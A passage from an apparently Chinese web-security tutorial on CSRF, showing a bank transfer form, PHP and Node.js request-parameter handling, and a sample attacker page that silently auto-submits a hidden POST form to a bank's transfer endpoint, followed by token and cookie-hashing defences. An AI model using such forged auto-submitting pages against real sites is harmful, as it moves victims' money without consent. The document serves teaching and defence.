 ```javascript
<form action="Transfer.php" method="POST">
　　　　<p>BankId: <input type="text" name="toBankId" /></p>
　　　　<p>Money: <input type="text" name="money" /></p>
　　　　<p><input type="submit" value="Transfer" /></p>
　　</form>
```

危险网站B，可以通过后台使用REQUEST去获取请求的数据，而_REQUEST既可以获取get请求的数据也可以获取post请求的数据
#### node.js
在node.js中，可以处理post请求的URL后面参数部分

```javascript
eq.body.username;//处理请求体request body
req.query.username;//处理查询字符串
```

## 只使用POST请求，只处理POST请求体的数据
危险网站B将代码修改

```javascript
<html>
　　<head>
　　　　<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.Bank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="BankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>
```

B网站创建了一个iframe标签，并且把它设置为display:none，隐藏表单属性，偷偷给网站A发送请求，提前把表单提交值设设置好，提交给A网站
## 源于web的身份验证机制

CSRF攻击是源于WEB的隐式身份验证机制！**WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的！**
## 防御机制
### 服务端进行CSRF防御

在客户端页面增加随机数。Cookie Hashing，就是构造加密的cookie信息。由于攻击者无法获取第三方cookie，那么表单的数据就构造失败。它不知道提交什么给服务器
在表单里增加Hash值，在服务端验证

